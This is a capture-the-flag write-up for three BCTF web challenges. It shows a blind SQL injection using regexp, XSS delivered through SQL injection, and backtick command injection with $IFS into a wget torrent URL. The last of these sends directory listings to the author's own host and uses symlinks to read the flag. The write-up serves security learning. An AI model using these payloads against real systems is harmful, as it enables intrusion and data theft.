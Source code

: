 `http://bctf.cn/#/challenge`
Participated as Ad Victoriam

## sqli_engine (200pt)

`http://104.197.7.111:8080/`

Just simple SQLi won't work on this level, because the given token is completely salted and encrypted.

The only way is to blind SQLi the password of the admin.

By bruteforcing the password using `regexp` operator, you will be able to solve this challenge.

```
Username: 1'='1
Password: '=password regexp '^BCTF{h~~~~~~
```

--

## webchat (325pt)

`http://146.148.60.107:9991/`

This challenge consists of both SQLi and XSS vulnerability.

First of all, you will be able to see that the javascript connects to the websocket and sends the data.

Since HTML tags are filtered completely, there is only one way to solve this challenge - by performing XSS through SQL injection.

```
Payload: stypr: 1'),((0x~~~~~~~)),('stypr: 1
the 0x~~~ hex data has to be the result in the form of "stypr: <script>document.location.~~~</script>", as the format of the record has to be "username: data".
```

--

## torrent_lover (233pt)


`http://218.2.197.253/index.php`

There is only one input to inject data and that was the input for the torrent URL address.

As we look further on how the torrents are read, we find out that the website uses `wget` to read data.

Considering that the `wget` is executed by `system()` function, we can think about injecting a grave accent (http://en.wikipedia.org/wiki/Grave_accent) in order to execute a shell command.

However, spaces are filtered from the `system()` command so you may have to use an internal field seperator to execute commands.

`http://stypr.com:33/stypr?id=&#96;ls$IFS../flag%7Cbase64&#96;#.torrent`

This would give you the base64-encoded output of ../flag directory listing, which is decoded as

```
flag

use_me_to_read_flag
```

As we analyze the `use_me_to_read_flag` binary by performing a reverse-engineering, we find out that the word `flag` is filtered by the binary.

By symlinking the flag and loading the symlinked file would pop out the flag.

```
http://stypr.com/stypr?id=&#96;mkdir$IFS-p$IFS/tmp/stypr&#96;#.torrent

http://stypr.com:33/stypr?id=&#96;ln$IFS-s$IFS/var/www/flag/flag$IFS/tmp/stypr/stypr&#96;#.torrent

http://stypr.com:33/stypr?id=&#96;../flag/use_me_to_read_flag$IFS/tmp/stypr/stypr&#96;#.torrent
```